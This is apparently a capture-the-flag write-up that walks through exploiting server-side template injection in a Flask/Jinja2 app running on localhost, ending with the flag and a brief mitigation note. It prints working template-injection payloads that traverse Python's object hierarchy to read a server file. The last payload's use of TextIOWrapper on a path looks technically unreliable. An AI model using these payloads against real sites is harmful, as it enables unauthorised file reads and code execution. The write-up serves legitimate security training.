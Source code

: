 SSTI Challenge Write-Up

Challenge Overview
Name: SSTI Challenge
Category: Web Exploitation
Difficulty: Medium
Description: This challenge tests your ability to exploit a Server-Side Template Injection (SSTI) vulnerability in a Flask-based web application. The objective is to retrieve the hidden flag from the server by leveraging Python’s object hierarchy.

Objectives
- Exploit the SSTI vulnerability to retrieve the flag from /var/www/html/flag.txt.

Tools Required
- Web browser
- Basic understanding of Jinja2 and Python object traversal

Solution Steps

Step 1: Explore the Application
- Access the web application through the provided URL:
  http://localhost:8080
- You will see a landing page that displays the message:
  "Hello, send something inside the param 'c'!"

Step 2: Test for Template Injection
- Verify that the application is vulnerable to SSTI by passing a basic payload in the c parameter:
  http://localhost:8080/?c={{7*7}}
- If successful, you will see the result of the arithmetic operation (49) rendered on the page.

Step 3: Investigate Python Object Traversal
- Use Python’s __class__ and __subclasses__() methods to explore the object hierarchy:
  http://localhost:8080/?c={{'abc'.__class__.__base__.__subclasses__()}}
- This will display a list of subclasses of Python’s object class, allowing you to find classes related to file handling.

Step 4: Identify the File Handling Class
- Locate the file handler class (e.g., <class '_io.TextIOWrapper'>) within the object hierarchy. The exact index may vary by environment; for example:
  http://localhost:8080/?c={{'abc'.__class__.__base__.__subclasses__()[92]}}
  
Step 5: Read the Flag File
- Use the file handler class to read the flag file located at /var/www/html/flag.txt:
  http://localhost:8080/?c={{'abc'.__class__.__base__.__subclasses__()[92]('/var/www/html/flag.txt').read()}}
- If successful, the content of the flag file will be displayed.

Flag
flag{SepalAI_SSTI_Challenge_R3m0t3_C0de_3x3c}

Notes
- Challenge Purpose: This challenge demonstrates the risks associated with unsanitized template rendering in Flask applications.
- Mitigation: Use proper input sanitization and restrict access to dangerous methods like __class__ and __subclasses__.

